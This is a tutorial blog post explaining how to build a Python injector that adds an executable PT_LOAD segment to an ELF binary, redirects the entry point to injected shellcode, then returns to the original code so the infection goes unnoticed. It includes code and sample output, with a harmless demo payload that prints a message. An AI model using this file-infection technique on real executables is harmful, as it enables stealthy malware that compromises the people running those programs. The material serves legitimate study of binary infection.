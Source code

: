 ```yaml
---
layout: post
title: PT_LOAD Injection with Python
date: 2022-11-27 13:20:14 +0300
description: Let's create a injector that use PT_LOAD injection technique
author: Utku Çorbacı - @rhotav
comments: true
tags: [Coding, Python, ELF, Linux, EN]
---
```


Twitter: [@rhotav](https://twitter.com/rhotav)

In this blog post, I'll explain how to create a injector that use PT_LOAD injection technique with Python. I'll use LIEF Python Library in this code.

# Table Of Contents
<pre>
1. ELF Basics
    1.1 PT_LOAD
2. Algorithm Of Technique
    2.1 Algorithm
3. Creating Injector
4. References
</pre>

# ELF Basics
## PT_LOAD
Actually, what I want to tell you here is what PT_LOAD is. According to Oracle Docs:
> Specifies a loadable segment, described by p_filesz and p_memsz. The bytes from the file are mapped to the beginning of the memory segment. If the segment's memory size (p_memsz) is larger than the file size (p_filesz), the extra bytes are defined to hold the value 0 and to follow the segment's initialized area. The file size can not be larger than the memory size. Loadable segment entries in the program header table appear in ascending order, sorted on the p_vaddr member.

This type (PT_LOAD) of program header is describing a loadable segment, which means that the segment is going to be loaded or mapped into memory. 
For instance, an ELF executable will generally contain the two loadable segments (of type PT_LOAD):
1. The text segment for program code
2. And the data segment for global variables and dynamic linking information

# Algorithm Of Technique
Our injector, create a new LOAD segment in to be injected. Let's look output of readelf for injected file.
```
➜  ~ readelf -l test_infected

Elf file type is EXEC (Executable file)
Entry point 0x10004000
There are 12 program headers, starting at offset 8396

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  PHDR           0x0020cc 0x0804a0cc 0x0804a0cc 0x00e40 0x00e40 R   0x4
  INTERP         0x000194 0x08048194 0x08048194 0x00013 0x00013 R   0x1
      [Requesting program interpreter: /lib/ld-linux.so.2]
  LOAD           0x000000 0x08048000 0x08048000 0x00324 0x00324 R   0x1000
  LOAD           0x001000 0x08049000 0x08049000 0x001cc 0x001cc R E 0x1000
  LOAD           0x002000 0x0804a000 0x0804a000 0x00f0c 0x00f0c R   0x1000
  LOAD           0x002f0c 0x0804bf0c 0x0804bf0c 0x00114 0x00118 RW  0x1000
  LOAD           0x004000 0x10004000 0x10004000 0x01000 0x01000   E 0x999
  DYNAMIC        0x002f14 0x0804bf14 0x0804bf14 0x000c0 0x000c0 RW  0x4
  NOTE           0x0001a8 0x080481a8 0x080481a8 0x00044 0x00044 R   0x4
  GNU_EH_FRAME   0x002014 0x0804a014 0x0804a014 0x0002c 0x0002c R   0x4
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x10
  GNU_RELRO      0x002f0c 0x0804bf0c 0x0804bf0c 0x000f4 0x000f4 R   0x1
```

We are seeing a LOAD segment more different than other LOAD segments. If you read the source code, you will see that the segment with `VirtAddr = 0x999` is the segment containing the malicious shellcode.

## Algorithm
1. Parse to be infected file
2. Create a new LOAD segment
3. Inject shellcode to created segment
4. Patch binary entrypoint
5. Add the old entrypoint at the end of Shellcode. (The main reason for doing this is that if we are trying to remain anonymous, the infected file will run without revealing anything to the user.)
6. Save new binary

# Creating Injector
The first library we'll use to build the injector is [lief](https://lief-project.github.io/), so I'll talk about it a bit. A library that parses executable files (ELF, PE, MACH-O). The first function we will use in our script is lief.parse(). Parse the target file and load it with all the details into the variable we want. Moreover, we can create a new segment with the Segment class.
```python

payload = "this must be rhotav!\n"
binary = lief.parse(args.f)
shellcode = asm("mov esi, edx")
shellcode += asm(shellcraft.i386.write(1, payload, len(payload)))
shellcode += asm(f"""
mov edx, esi
push {hex(binary.header.entrypoint)}
ret
""")
segment           = lief.ELF.Segment()
segment           = lief.ELF.Segment()
segment.type      = lief.ELF.SEGMENT_TYPES.LOAD
segment.flags     = lief.ELF.SEGMENT_FLAGS.X
segment.content   = bytearray(shellcode)
segment.alignment = 0x999
binary.add(segment)
```
The asm function in the library we use to generate shellcode (i.e. pwntools) is used to convert what we write in assembly language into a bytearray.
Here I have chosen to print a message on the screen, but you can do something different (remember to organize the memory properly according to the error you will get!)

Output:

```
➜  ~ ./test
Infect Me !
➜  ~ python3 main.py -f ./test
Shellcode size:  53
[+] Segment added
[+] Real EntryPoint:  0x8049070
[+] New EntryPoint:  0x10004000
➜  ~ ls
main.py  test  test.c  test_infected
➜  ~ chmod +x test_infected
➜  ~ ./test_infected
this must be rhotav!
Infect Me !
```

Source Code: [GitHub Repo](https://github.com/rhotav/PT_LOAD-Injector)

# References
- [tmpout](https://tmpout.sh/1/3.html)
- [packtpub](https://subscription.packtpub.com/book/networking-and-servers/9781782167105/4/ch04lvl1sec36/the-pt_note-to-pt_load-conversion-infection-method)


"This must be rhotav!"